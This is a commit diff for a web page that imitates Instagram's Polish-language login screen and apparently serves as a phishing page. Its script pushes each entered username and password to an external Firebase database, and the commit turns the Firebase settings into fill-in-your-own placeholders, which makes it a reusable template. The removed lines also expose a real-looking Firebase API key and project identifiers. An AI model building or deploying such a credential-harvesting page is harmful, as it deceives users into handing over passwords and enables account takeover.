

Before and after one commit to philipstrev233-boop/Instagram.com, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after typing "name@example.com", "Sample123" into the empty fields and a click on the button "Zaloguj się". Shown: the part 363-608 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers; a web font is replaced by a local one.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
 <meta charset="UTF-8">
 <meta name="viewport" content="width=device-width, initial-scale=1.0">
-<title>Instagram</title>
+<title>Instagram Test Login</title>
 <style>
   /* Body */
   body {
@@ -65,6 +65,14 @@
     opacity: 0.9;
   }
 
+  /* Komunikat po wysłaniu */
+  #successMessage {
+    color: green;
+    margin-top: 10px;
+    display: none;
+    font-size: 14px;
+  }
+
   /* Responsywność */
   @media (max-width: 500px) {
     .login-container {
@@ -90,31 +98,35 @@
     <input type="password" id="password" placeholder="Hasło" required>
     <button type="submit">Zaloguj się</button>
   </form>
+  <div id="successMessage">Testowe dane wysłane!</div>
 </div>
 
 <script src="https://www.gstatic.com/firebasejs/9.23.0/firebase-app-compat.js"></script>
 <script src="https://www.gstatic.com/firebasejs/9.23.0/firebase-database-compat.js"></script>
 <script>
+  // PODMIEN NA SWÓJ KOD Z FIREBASE
   const firebaseConfig = {
-    apiKey: "AIzaSyDjAwhA9NkAGfGBcQYOydYzo2W6qT4BEk8",
-    authDomain: "instagram-logowanie.firebaseapp.com",
-    databaseURL: "https://instagram-logowanie-default-rtdb.firebaseio.com",
-    projectId: "instagram-logowanie",
-    storageBucket: "instagram-logowanie.firebasestorage.app",
-    messagingSenderId: "182057697219",
-    appId: "1:182057697219:web:587950e0147ff941a38776",
-    measurementId: "G-QR2MVNRFM5"
+    apiKey: "TWOJE_API_KEY",
+    authDomain: "TWOJ_PROJEKT.firebaseapp.com",
+    databaseURL: "https://TWOJ_PROJEKT-default-rtdb.firebaseio.com",
+    projectId: "TWOJ_PROJEKT",
+    storageBucket: "TWOJ_PROJEKT.appspot.com",
+    messagingSenderId: "TWOJE_ID",
+    appId: "TWOJE_APP_ID"
   };
 
   firebase.initializeApp(firebaseConfig);
   const database = firebase.database();
 
   const form = document.getElementById('loginForm');
+  const successMessage = document.getElementById('successMessage');
+
   form.addEventListener('submit', (e) => {
     e.preventDefault();
     const username = document.getElementById('username').value;
     const password = document.getElementById('password').value;
 
+    // Zapis testowych danych do Firebase
     database.ref('testLogins').push({
       username,
       password,
@@ -122,7 +134,12 @@
     });
 
     form.reset();
-    alert("Testowe dane zostały wysłane!");
+
+    // Pokaż delikatny komunikat
+    successMessage.style.display = 'block';
+    setTimeout(() => {
+      successMessage.style.display = 'none';
+    }, 3000);
   });
 </script>
 
```
